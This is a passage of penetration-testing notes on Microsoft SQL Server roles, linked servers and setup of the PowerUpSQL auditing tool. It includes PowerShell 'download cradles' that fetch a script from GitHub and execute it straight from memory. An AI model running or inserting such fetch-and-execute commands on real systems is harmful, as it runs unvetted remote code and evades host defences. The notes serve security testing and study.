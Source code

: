 ![MSSQL Authentication](./mssql_authentication.png)

**Important Roles**

- Server Roles:
	- Sysadmin = Database Administrator
	- Public Role = Everyone with CONNECT
- Database Roles: 
	- Database Owner = SQL login that owns the database ☺
	- DB_OWNER role = Allows members to take most actions in the database

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures. Database links work even across forest trusts.

## PowerUpSQL Setup

1. All possible setup options:

```powershell
# Download to Disk + Import Module
# Download from https://github.com/NetSPI/PowerUpSQL
Import-Module PowerUpSQL.psd1

# Download/Import to Memory: Download Cradle 1
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")

# Download/Import to Memory: Common Download Cradle 2
&([scriptblock]::Create((new-object net.webclient).downloadstring("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")))

# Install Module from PowerShell Gallery
Install-Module -Name PowerUpSQL
```
